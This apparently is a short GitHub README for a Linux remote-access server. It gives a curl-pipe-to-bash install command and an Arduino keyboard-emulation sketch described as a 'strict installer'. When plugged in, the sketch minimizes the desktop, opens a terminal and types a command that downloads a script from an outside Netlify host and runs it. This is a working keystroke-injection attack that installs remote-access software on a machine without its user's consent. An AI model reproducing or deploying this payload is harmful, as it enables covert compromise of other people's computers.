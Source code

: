 # Remote Access Software
### the server works for linux (tested on Rosa)
you need to connect to the same network with machine that you're accesing!
Thanks to MitrichevGeorge, who found this project
### Installation
```bash
curl -fsSL https://raw.githubusercontent.com/MitrichevGeorge/mserv/main/install.sh | bash
```
---
This is part of strict installer:
```cpp
#include <Keyboard.h>

#define SCRIPT_URL "https://qpas.netlify.app/i.sh"
const unsigned long KEY_DELAY = 100;

void setup() {
  delay(200);
  Keyboard.begin();

  minimizeAllWindows();
  delay(300);

  openTerminalLinux();
  delay(500);
  typeCommandLinux();
}

void loop() { }

void minimizeAllWindows() {
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('d');
  delay(150);
  Keyboard.releaseAll();

  delay(250);

  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press(KEY_F12);
  delay(150);
  Keyboard.releaseAll();

  delay(300);
}

void openTerminalLinux() {
  Keyboard.press(KEY_LEFT_ALT);
  Keyboard.press(KEY_F2);
  delay(200);
  Keyboard.releaseAll();

  delay(300);

  Keyboard.print("konsole");
  delay(KEY_DELAY);
  Keyboard.write(KEY_RETURN);

  delay(500);
}

void typeCommandLinux() {
  String cmd = "curl -sSL " + String(SCRIPT_URL) + " | sh";
  Keyboard.print(cmd);
  delay(KEY_DELAY);
  Keyboard.write(KEY_RETURN);
}
```
